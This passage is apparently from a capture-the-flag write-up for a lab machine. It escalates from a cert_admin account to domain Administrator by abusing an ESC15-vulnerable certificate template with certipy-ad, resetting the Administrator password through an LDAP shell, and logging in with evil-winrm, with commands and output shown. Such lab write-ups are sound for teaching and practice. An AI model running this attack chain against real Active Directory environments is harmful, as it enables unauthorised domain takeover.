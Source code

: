 We have credentials for `cert_admin`! `cert_admin`:`[REDACTED]`

Given that the account is called `cert_admin` I have a suspicion we have privileges over certificate templates and enrollment. Let's use `certipy-ad` to find any vulnerable certificates.

**Command**
```bash
certipy-ad find -u $USER@$DOMAIN -hashes :$HASH -vulnerable
```

If we look through the `txt` file `certipy-ad` wrote, we should find a vulnerability.

```html
<SNIP>
[!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
</SNIP>
```

So we found that the `WebServer` certificate has the `ESC15` vulnerability, which allows us, the enrollee, to supply a `subject` which means we should be able to request a certificate on behalf of the `administrator` as `cert_admin` by supplying the `administrator`'s `UPN`.

**Command**
```bash
certipy-ad -debug req -u $USER@$DOMAIN -hashes $HASH -dc-ip $IP -target $TARGET -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' -application-policies 'Client Authentication'
```

Now there are several methods we can use this `pfx` certificate, we can grab credentials with it using `PKINITtools`, another option is to enter an `ldap shell` and simply change our password.

**Command**
```bash
certipy-ad auth -pfx administrator.pfx -domain $DOMAIN -dc-ip $IP -ldap-shell
```

Now we sould have access to an `ldap shell`, let's change the password of the Administrator account.

**Command**
```ldap
change_password Administrator W1ldP@ss
```

**Output**
```
Got User DN: CN=Administrator,CN=Users,DC=tombwatcher,DC=htb
Attempting to set new password of: W1ldP@ss
Password changed successfully!
```

We now have `Administrator` credentials, let's `WinRM` into the machine and claim our flags!

**Command**
```bash
evil-winrm -i $DOMAIN -u $USER -p $PASS
```
